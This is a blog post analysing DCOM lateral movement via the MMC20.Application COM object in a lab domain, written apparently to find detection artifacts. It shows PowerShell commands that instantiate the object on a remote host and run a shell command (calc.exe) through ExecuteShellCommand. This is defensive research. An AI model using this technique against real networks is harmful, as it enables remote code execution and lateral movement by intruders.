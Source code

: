 ```yaml
---
layout: post
title: "Analysis of DCOM Lateral Movement Using MMC20.Application"       # Title of the post
description: Analyzing MMC20.Application Lateral Movement         # Description of the post, used for Facebook Opengraph & Twitter
headline: MMC20.Application Lateral Movement Analysis      # Will appear in bold letters on top of the post
category: [incident response]
tags: [incident response, lateral movement]
image:
imagefeature: collage.gif
comments: true
mathjax:
---
```


The other month I read enigma0x3's [excellent post](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/ 'enigma0x3.net') on using MMC20.Application for lateral movement.  The MMC20.Application class allows for the interaction and automation of MMC.  In enigma0x3's post he leverages the MMC20.Application class using one of the ActiveView View methods to execute a shell command of his choosing, calc.exe in this instance.\\
This got me thinking how would I spot this lateral movement method on one of my networks.  Clearly, it doesn't stand out like psexec or some odd service or scheduled task starting up for the first time or at a strange time.  So I figured I would test it out myself and see what artifacts I can see.\\
So let's poke around and see what we can see.  For my testing, I have 3 boxes running, a Windows 10 system named Baluur, a Windows 7 named Arthros and then a Domain Controller aptly named TheCrossRoadsOfInfinity.  All machine are part of thenegative.zone domain.  All boxes are also remotely logging sysmon to an ELK stack.  For the scenario, we are going to pretend the attacker has a foothold on the Windows 10 system and is now looking to pivot off their newly found access to another machine.  In this case, the Windows 7 system is the target.

So first I'll ensure calc.exe isn't already running on the Windows 7 endpoint.
```shell.command
PS C:\Windows\system32> gwmi Win32_Process -filter "name='calc.exe'" -credential thenegative.zone\Administrator -ComputerName 172.20.64.130 | select ExecutablePath, ProcessId, ParentProcessId, CommandLine|format-list
```
Just to be clear there are no instances running we use PS to look for calc.exe
```shell.command
C:\Windows\system32>wmic /node:172.20.64.130 /user:administrator process where name="calc.exe" list
Enter the password :************
No Instance(s) Available.
```   
<br>

MMC20.Application's Lateral Movement PoC Calc Execution
=============================

The next steps will actually perform the MMC20.Application execution of calc.exe via PowerShell.  First we create an instance of MMC20.Application and then utilize the ExecuteShellCommand method.  So we are going to open a command window as Administrator (RunAsAdministrator) and then execute powershell and type the following:
```shell.command
PS C:\Windows\system32> $comobj = [Activator]::CreateInstance([Type]::GetTypeFromProgID("MMC20.Application","172.20.64.130"));

PS C:\Windows\system32> $comobj.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe",$null,$null,"9")
```
